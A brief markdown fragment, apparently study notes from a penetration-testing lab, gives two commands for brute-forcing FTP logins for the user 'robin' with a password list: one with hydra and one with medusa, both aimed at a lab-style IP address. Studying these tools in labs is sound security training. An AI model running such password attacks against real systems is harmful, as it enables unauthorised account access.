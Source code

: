 
### Brute Force

```bash
hydra -t 4 -l robin -P passwords.list ftp://10.129.203.6
```

#### Medusa Brute Force
```shell-session
medusa -u robin -P ./passwords.list -h 10.129.203.6 -M ftp -n 443
```